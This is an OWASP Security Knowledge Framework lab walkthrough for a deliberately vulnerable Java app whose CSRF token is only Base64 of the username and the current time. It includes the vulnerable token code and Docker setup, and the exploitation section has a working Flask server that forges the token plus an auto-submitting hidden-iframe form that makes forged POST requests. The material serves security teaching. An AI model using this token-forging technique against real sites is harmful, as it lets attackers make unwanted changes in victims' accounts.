 # CSRF - Weak

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-csrf-weak
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-csrf-weak
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the attacker and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```

![](../../.gitbook/assets/java/CSRF-Weak/1.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](../../.gitbook/assets/java/CSRF-Weak/2.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](../../.gitbook/assets/java/CSRF-Weak/3.png)

Also we can see that the application is using a csrf_token

```html
<form method="post" action="/update">
  <input
    type="hidden"
    class="form-control"
    name="csrf_token"
    th:value="${csrfToken}"
  /><br />
  <input
    type="text"
    class="form-control"
    name="color"
    placeholder="favorite color"
  /><br />
  <button class="btn btn-primary" type="submit">Submit Button</button>
</form>
```

Looks like it's Base64 encoded, try decode it.

![](../../.gitbook/assets/java/CSRF-Weak/4.png)

The csrf token is simply username + time.

Checking the application code we can how this csrf_token is being implemented.

```java
public String newCsrfToken(HttpServletRequest request){
        String csrfToken =  request.getSession().getAttribute("username") + String.valueOf(LocalDateTime.now().getHour()) +":"+ String.valueOf(LocalDateTime.now().getMinute());
        csrfToken = Base64.getEncoder().encodeToString(csrfToken.getBytes());
        request.getSession().setAttribute("csrfToken",csrfToken);
        return csrfToken;
      }
```

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from and sending the weak csrf_token with. We could achieve this by creating the following express application:

```python
import base64
from time import localtime, strftime
from flask import Flask, request, url_for, render_template, redirect, make_response

app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    time = strftime("%H:%M", localtime())
    csrf = "admin" + time
    csrf_raw = base64.b64encode(csrf.encode())
    csrf_token = str(csrf_raw, 'utf-8')
    return render_template("evil.html", csrf_token = csrf_token)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.

```text
$ pip3 install flask
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="http://localhost:5000/update"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="color" value="Hackzord!" />
  <input
    type="hidden"
    name="csrf_token"
    value="{% autoescape true %}{{csrf_token}}{% endautoescape %}"
  />
  <input type="submit" value="submit" />
</form>
<script>
  document.getElementById("csrf-form").submit();
</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python3 evil_server.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from and we have our forged csrf_token with the request.

![](../../.gitbook/assets/java/CSRF-Weak/5.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](../../.gitbook/assets/java/CSRF-Weak/6.png)

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/csrf" %}
